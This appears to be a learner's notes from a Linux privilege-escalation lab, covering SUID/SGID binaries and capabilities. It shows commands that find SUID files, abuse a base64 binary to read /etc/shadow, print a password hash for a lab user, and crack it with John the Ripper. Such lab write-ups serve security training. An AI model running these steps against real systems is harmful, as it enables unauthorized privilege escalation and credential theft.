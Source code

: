 By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.

`find / -type f -perm -04000 -ls 2>/dev/null` -> will list files that have SUID or SGID bits set.
`find / -perm -u=s -type f 2>/dev/null`
use [this](https://gtfobins.github.io/#+suid) prefiltered list to compare

1. `find / -perm -u=s -type f 2>/dev/null`
2. cat /etc/passwd -> gerryconway, user2 ...
3.  
```
$LFILE=/etc/shadow
$ base64 "$LFILE" | base64 --decode
got user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
```

4. using john:
```
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt user2.txt
Created directory: /home/kali/.john
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (?) 
```

5. 
```
$ LFILE=/home/ubuntu/flag3.txt
$ base64 "$LFILE" | base64 --decode
```





# Privilege Escalation: Capabilities

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.
The capabilities man page provides detailed information on its usage and options.

GTFObins has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.
